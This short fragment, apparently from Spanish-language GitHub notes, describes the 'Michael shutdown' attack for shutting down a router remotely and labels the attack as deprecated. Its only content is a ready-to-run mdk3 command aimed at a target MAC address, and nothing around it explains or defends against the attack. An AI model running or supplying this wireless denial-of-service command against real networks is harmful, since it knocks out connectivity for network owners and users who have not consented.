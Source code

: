 # Ataque Michael Shutdown Exploitation - Apagado de Router en remoto (Ataque deprecated)

```bash
mdk3 wlan m -t MAC-TARGET
```
